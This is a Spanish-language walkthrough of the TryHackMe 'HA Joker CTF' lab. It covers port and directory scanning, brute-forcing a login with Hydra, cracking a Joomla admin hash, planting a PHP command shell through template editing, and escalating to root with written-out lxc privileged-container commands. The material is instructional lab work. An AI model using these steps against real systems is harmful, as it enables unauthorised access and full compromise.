







TryHackMe - HA Joker CTF

Contenido
| Titulo | HA Joker CTF |
|---|---|
| Room | HA Joker CTF |
| Info | Batman hits Joker. |
| Puntos | 3940 |
| Dificultad | Media |
| Maker | ki11switch |
NMAP
Escaneo de puerto tcp, en el cual nos muestra varios puertos abiertos.
# Nmap 7.80 scan initiated Thu Feb 27 14:33:03 2020 as: nmap -sV -p- --min-rate=1000 -o nmap_rate jokerctf.thm
Warning: 10.10.171.105 giving up on port because retransmission cap hit (10).
Nmap scan report for jokerctf.thm (10.10.171.105)
Host is up (0.24s latency).
Not shown: 65532 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
8080/tcp open http Apache httpd 2.4.29
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Feb 27 14:34:50 2020 -- 1 IP address (1 host up) scanned in 107.72 seconds
HTTP
En el puerto 80 encontramos una pagina que nos muestra distintas imagenes del joker.

GOBUSTER
Utilizamos gobuster para busqueda de directorios y archivos.
root@aoiri:~/tryhackme/jokerctf# gobuster dir -u http://jokerctf.thm/ -w /usr/share/wordlists/dirb/common_nofirst10.txt -q -t 15 -x php,html,txt
/css (Status: 301)
/img (Status: 301)
/index.html (Status: 200)
/index.html (Status: 200)
/phpinfo.php (Status: 200)
/phpinfo.php (Status: 200)
/secret.txt (Status: 200)
/server-status (Status: 403)
root@aoiri:~/tryhackme/jokerctf#
/secret.txt

HTTP - Puerto 8080
En el puerto 8080 encontramos un panel donde nos pide un usuario y contraseña. 
Hydra
Utilizamos hydra con los usuarios joker y batman junto con el wordlist rockyou.txt en el puerto 8080.

Al iniciar sesion con las credenciales vemos una nueva pagina, a simple vista podemos ver que es un CMS Joomla.

RUSTBUSTER
Utilizamos RUSTBUSTER para busqueda de directorios y archivos (por alguna razon gobuster no aceptaba los headers).
root@aoiri:~/tryhackme/jokerctf# /opt/rustbuster/rustbuster dir -u http://jokerctf.thm:8080/ -w /usr/share/wordlists/dirb/common_nofirst10.txt -t 25 -e php,html,txt -H "Authorization: Basic am9rZXI6aGFubmFo,Cookie: 5fef75b50575ebea33a28bd1e7087dcb=et845u1qtnkv5io3ak6msfmdim; 0d073d2ec68ac2f24f859831bbe8843b=3r1udjnnh7dk8bv4jt7gpadh5r"
~ rustbuster v3.0.3 ~ by phra & ps1dr3x ~
_ _ _ _ _ _ _ _ _ _
/\ \ /\_\ / /\ /\ \ / /\ /\_\ / /\ /\ \ /\ \ /\ \
/ \ \/ / / _ / / \ \_\ \ / / \ / / / _ / / \ \_\ \ / \ \ / \ \
/ /\ \ \ \ \__ /\_\/ / /\ \__ /\__ \ / / /\ \ \ \ \__ /\_\/ / /\ \__ /\__ \ / /\ \ \ / /\ \ \
/ / /\ \_\ \___\ / / / / /\ \___\/ /_ \ \ / / /\ \ \ \ \___\ / / / / /\ \___\/ /_ \ \ / / /\ \_\ / / /\ \_\
/ / /_/ / /\__ / / / /\ \ \ \/___/ / /\ \ \/ / /\ \_\ \ \__ / / / /\ \ \ \/___/ / /\ \ \/ /_/_ \/_/ / / /_/ / /
/ / /__\/ / / / / / / / \ \ \ / / / \/_/ / /\ \ \___\ / / / / / / \ \ \ / / / \/_/ /____/\ / / /__\/ /
/ / /_____/ / / / / / _ \ \ \ / / / / / / \ \ \__// / / / / _ \ \ \ / / / / /\____\/ / / /_____/
/ / /\ \ \ / / /___/ / /_/\__/ / / / / / / / /____\_\ \ / / /___/ / /_/\__/ / / / / / / / /______ / / /\ \ \
/ / / \ \ \/ / /____\/ /\ \/___/ / /_/ / / / /__________/ / /____\/ /\ \/___/ / /_/ / / / /_______/ / / \ \ \
\/_/ \_\/\/_________/ \_____\/ \_\/ \/_____________\/_________/ \_____\/ \_\/ \/__________\/_/ \_\/
[?] Started at : 2020-02-27 16:01:01
GET 403 Forbidden http://jokerctf.thm:8080/.html
GET 403 Forbidden http://jokerctf.thm:8080/.php
GET 200 OK http://jokerctf.thm:8080/
GET 301 Moved Permanently http://jokerctf.thm:8080/administrator
=> http://jokerctf.thm/administrator/
GET 200 OK http://jokerctf.thm:8080/backup
GET 200 OK http://jokerctf.thm:8080/backup.zip
GET 301 Moved Permanently http://jokerctf.thm:8080/bin
=> http://jokerctf.thm/bin/
GET 301 Moved Permanently http://jokerctf.thm:8080/cache
=> http://jokerctf.thm/cache/
GET 301 Moved Permanently http://jokerctf.thm:8080/components
=> http://jokerctf.thm/components/
GET 200 OK http://jokerctf.thm:8080/configuration.php
GET 301 Moved Permanently http://jokerctf.thm:8080/images
=> http://jokerctf.thm/images/
GET 301 Moved Permanently http://jokerctf.thm:8080/includes
=> http://jokerctf.thm/includes/
GET 200 OK http://jokerctf.thm:8080/index.php
GET 200 OK http://jokerctf.thm:8080/index.php
GET 301 Moved Permanently http://jokerctf.thm:8080/language
=> http://jokerctf.thm/language/
GET 301 Moved Permanently http://jokerctf.thm:8080/layouts
=> http://jokerctf.thm/layouts/
GET 301 Moved Permanently http://jokerctf.thm:8080/libraries
=> http://jokerctf.thm/libraries/
GET 200 OK http://jokerctf.thm:8080/LICENSE
GET 200 OK http://jokerctf.thm:8080/LICENSE.txt
GET 301 Moved Permanently http://jokerctf.thm:8080/media
=> http://jokerctf.thm/media/
GET 301 Moved Permanently http://jokerctf.thm:8080/modules
=> http://jokerctf.thm/modules/
GET 301 Moved Permanently http://jokerctf.thm:8080/plugins
=> http://jokerctf.thm/plugins/
GET 200 OK http://jokerctf.thm:8080/README
GET 200 OK http://jokerctf.thm:8080/README.txt
GET 200 OK http://jokerctf.thm:8080/robots
GET 200 OK http://jokerctf.thm:8080/robots.txt
GET 200 OK http://jokerctf.thm:8080/robots.txt
GET 403 Forbidden http://jokerctf.thm:8080/server-status
GET 301 Moved Permanently http://jokerctf.thm:8080/templates
=> http://jokerctf.thm/templates/
GET 301 Moved Permanently http://jokerctf.thm:8080/tmp
=> http://jokerctf.thm/tmp/
GET 200 OK http://jokerctf.thm:8080/web.config
GET 200 OK http://jokerctf.thm:8080/web.config.txt
[?] Ended at: 2020-02-27 16:05:02
USER - www-data
Encontramos un archivo backup.zip en la pagina protegido por contraseña, utilizamos la contraseña de joker que encontramos con hydra.
root@aoiri:~/tryhackme/jokerctf# file backup.zip
backup.zip: Zip archive data, at least v1.0 to extract
root@aoiri:~/tryhackme/jokerctf# unzip backup.zip
Archive: backup.zip
creating: db/
[backup.zip] db/joomladb.sql password:
skipping: db/joomladb.sql incorrect password
Encontramos un archivo de base de datos, dentro de los querys encontramos un insert en el que aparece la contraseña del usuario admin: 
Crackeamos la contraseña con john:
root@aoiri:~/tryhackme/jokerctf# john hash_joomla --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
****** (?)
1g 0:00:00:12 DONE (2020-02-27 16:14) 0.08130g/s 83.41p/s 83.41c/s 83.41C/s bullshit..bulldogs
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@aoiri:~/tryhackme/jokerctf#
Ahora podemos iniciar sesion en el panel de joomla, vamos a crear un archivo el cual ejecute comandos en el sistema. Nos dirigimos a Extensions -> Templates, Seleccionamos protostar el cual esta siendo utilizado en la pagina de joomla.

Creamos un archivo en el template protostar.

Ejecutamos comandos utilizando la URL http://jokerctf.thm:8080/templates/protostar/shell.php?cmd=id.

Obtenemos una shell utilizando nuestra shell, creamos un archivo shell.sh el cual contiene una shell inversa, la descargamos en la maquina y la ejecutamos.

Obtenemos una shell con el usuario www-data.
PRIVILEGE ESCALATION
Vemos que el usuario www-data pertenece al grupo lxc, logramos listar las images que estan disponibles en la maquina.

Utilizamos lxc para poder crear un contenedor y montar la carpeta /root en /mnt/root:
Comandos:
#Descargamos alpine en la maquina en la carpeta /tmp
lxc image import ./alpine-v3.11-x86_64-20200227_1750.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh

Logramos obtener una shell cn el usuario root y nuestra flag “root.txt”. 